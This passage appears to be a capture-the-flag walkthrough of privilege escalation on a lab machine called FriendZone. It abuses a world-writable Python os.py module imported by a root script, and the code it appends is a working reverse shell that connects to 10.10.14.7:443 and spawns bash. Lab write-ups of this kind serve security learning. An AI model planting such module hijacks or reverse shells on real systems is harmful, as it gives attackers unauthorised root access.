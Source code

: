 reporter.py (we can not write or change it)
```
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

I noticed that the python module, os, was writable:
```
friend@FriendZone:/usr/lib/python2.7$ find -type f -writable -ls
   262202     28 -rw-rw-r--   1 friend   friend      25583 Jan 15 22:19 ./os.pyc
   282643     28 -rwxrwxrwx   1 root     root        25910 Jan 15 22:19 ./os.py
```

I can use the following command to see the python path order:
```
friend@FriendZone:/dev/shm$ python -c 'import sys; print "\n".join(sys.path)'

/usr/lib/python2.7
/usr/lib/python2.7/plat-x86_64-linux-gnu
/usr/lib/python2.7/lib-tk
/usr/lib/python2.7/lib-old
/usr/lib/python2.7/lib-dynload
/usr/local/lib/python2.7/dist-packages
/usr/lib/python2.7/dist-packages
```

The most common case for this kind of hijack is finding the directory containing the python script writable. In that case, I could drop an os.py in next to reporter.py and it would load there before checking /usr/lib/python2.7/. In this case, I actually can’t write to /opt/server_admin/. But I can write directly to the normal version of this module.

Just use nano to change it and wait for the reverse shell come back.
```
...[snip]...
def _pickle_statvfs_result(sr):
    (type, args) = sr.__reduce__()
    return (_make_statvfs_result, args)

try:
    _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                     _make_statvfs_result)
except NameError: # statvfs_result may not exist
    pass

import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```